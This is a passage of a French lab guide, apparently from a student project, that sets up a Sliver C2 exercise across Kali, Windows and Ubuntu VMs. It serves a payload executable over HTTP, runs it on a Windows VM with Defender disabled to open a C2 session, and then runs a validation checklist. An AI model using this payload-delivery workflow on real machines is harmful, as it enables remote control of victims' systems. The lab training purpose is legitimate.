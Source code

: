 **3. Test de Connectivité Payload**
```bash
# Démarrer un serveur HTTP simple pour servir le payload
cd ~/project-m1/payloads
python3 -m http.server 8000

# Sur VM2 (Windows), télécharger via navigateur :
# http://192.168.56.10:8000/test-payload.exe
```

**4. Exécution et Vérification de Session**
```powershell
# Sur VM2, exécuter le payload (Windows Defender doit être désactivé)
# Double-cliquer sur le fichier téléchargé

# Sur VM1, vérifier la session dans Silver
sliver > sessions
# Vous devriez voir une nouvelle session active
```

---

## ✅ **ÉTAPE 9 : VALIDATION DE L'INSTALLATION** (15 min)

### Checklist de Validation
```bash
# Sur VM1 (Kali)
echo "=== VALIDATION PROJET M1 ==="

# 1. Silver C2 fonctionne
pgrep -f sliver-server && echo "✅ Silver serveur actif" || echo "❌ Silver serveur arrêté"

# 2. Connectivité réseau
ping -c 1 192.168.56.20 > /dev/null && echo "✅ VM2 accessible" || echo "❌ VM2 inaccessible"
ping -c 1 192.168.56.30 > /dev/null && echo "✅ VM3 accessible" || echo "❌ VM3 inaccessible"

# 3. Scripts présents
[ -f ~/project-m1/scripts/project-orchestrator.py ] && echo "✅ Orchestrateur présent" || echo "❌ Orchestrateur manquant"

# 4. Payload généré
[ -f ~/project-m1/payloads/test-payload.exe ] && echo "✅ Payload généré" || echo "❌ Payload manquant"

# 5. Session Silver active
sliver-client -c "sessions" | grep -q "session_" && echo "✅ Session active" || echo "❌ Aucune session"
```

### Test de Génération de Rapport
```bash
# Sur VM3 (Ubuntu), tester la génération de rapport
mkdir -p ~/forensics/reports
echo "Test de génération de rapport..." > ~/forensics/reports/test-report.txt
ls -la ~/forensics/reports/
```

---